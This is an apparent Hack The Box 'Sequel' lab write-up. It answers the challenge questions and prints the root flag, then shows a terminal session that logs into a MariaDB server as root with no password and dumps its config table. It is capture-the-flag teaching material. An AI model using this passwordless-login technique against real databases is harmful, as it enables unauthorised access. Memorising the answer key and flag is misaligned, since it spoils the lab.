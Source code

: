 
#### During our scan, which port do we find serving MySQL?
3306

#### What community-developed MySQL version is the target running?
MariaDB

#### When using the MySQL command line client, what switch do we need to use in order to specify a login username?
-u

#### Which username allows us to log into this MariaDB instance without providing a password?
root

#### In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?
*

#### In SQL, what symbol do we need to end each query with?
;

#### There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?
htb

#### Submit root flag
7b4bec00d1a39e3dd4e021ec3d915da8



``` bash 
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Sequel]
└──╼ $mysql -h 10.129.50.158 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 107
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW databases
    -> SHOW databases;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SHOW databases' at line 2
MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.081 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> SHOW tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.080 sec)

MariaDB [htb]> SELECT * FROM config
    -> SELECT * FROM config;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM config' at line 2
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.082 sec)

MariaDB [htb]>

```